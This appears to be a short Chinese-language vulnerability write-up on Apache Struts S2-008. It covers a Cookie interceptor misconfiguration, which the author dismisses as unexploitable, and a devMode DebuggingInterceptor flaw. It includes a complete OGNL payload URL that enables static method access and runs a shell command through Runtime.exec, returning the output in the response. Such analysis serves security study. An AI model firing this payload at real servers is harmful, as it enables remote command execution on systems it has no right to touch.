




# S2-008漏洞分析

这个涉及了多个鸡肋漏洞，但是思路还是可以学！

## 影响版本

Struts 2.1.0 - Struts 2.3.1

## Cookie 拦截器错误配置可造成 OGNL 表达式执行分析

还需要配置一下真恶心，之前的struts.xml

```java
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.0//EN"
        "http://struts.apache.org/dtds/struts-2.0.dtd">

<struts>
    <package name="S2-001" extends="struts-default">
        <interceptors>
            <interceptor name="cookie" class="org.apache.struts2.interceptor.CookieInterceptor"/>
        </interceptors>
        <action name="login" class="com.test.s2001.action.LoginAction">
            <result name="success">welcome.jsp</result>
            <result name="error">index.jsp</result>
            <interceptor-ref name="defaultStack" />

            <interceptor-ref name="cookie">
                <param name="cookiesName">*</param>
                <param name="cookiesValue">*</param>
            </interceptor-ref>
        </action>
    </package>

</struts>
```

这里看出确实可以，太鸡肋了甚至没必要分析了



主要是大多 Web 容器对 Cookie 名称都有字符限制，比如tomcat的

```java
 public static final char SEPARATORS[] = { '\t', ' ', '\"', '(', ')', ',', ':', ';', '<', '=', '>', '?', '@', '[', '\\', ']', '{', '}' };
```

所以没法利用，知道有这玩意儿就行了

## Struts <= 2.3.17 DebuggingInterceptor RCE

开启很简单在`struts.xml`当中添加

```xml
<constant name="struts.devMode" value="true" />
```

简单测试一下，果然是可以的



```url
http://127.0.0.1:8080/login.action?debug=command&expression=(%23_memberAccess.allowStaticMethodAccess=true,%23context["xwork.MethodAccessor.denyMethodExecution"]=false,%23cmd="ifconfig",%23ret=@java.lang.Runtime@getRuntime().exec(%23cmd),%23data=new+java.io.DataInputStream(%23ret.getInputStream()),%23res=new+byte[1000],%23data.readFully(%23res),%23echo=new+java.lang.String(%23res),%23out=@org.apache.struts2.ServletActionContext@getResponse(),%23out.getWriter().println(%23echo))
```

现在简单分析一下，在`org.apache.struts2.interceptor.debugging.DebuggingInterceptor`,在前面可以看到有四种模式，具体自己测试

```java
private static final String XML_MODE = "xml";
private static final String CONSOLE_MODE = "console";
private static final String COMMAND_MODE = "command";
private static final String BROWSER_MODE = "browser";
```

那为什么可以解析任意ognl表达式呢，看下面两张图够了，太简单了就这样吧



## 其他

太鸡肋了，暂时不想搞了
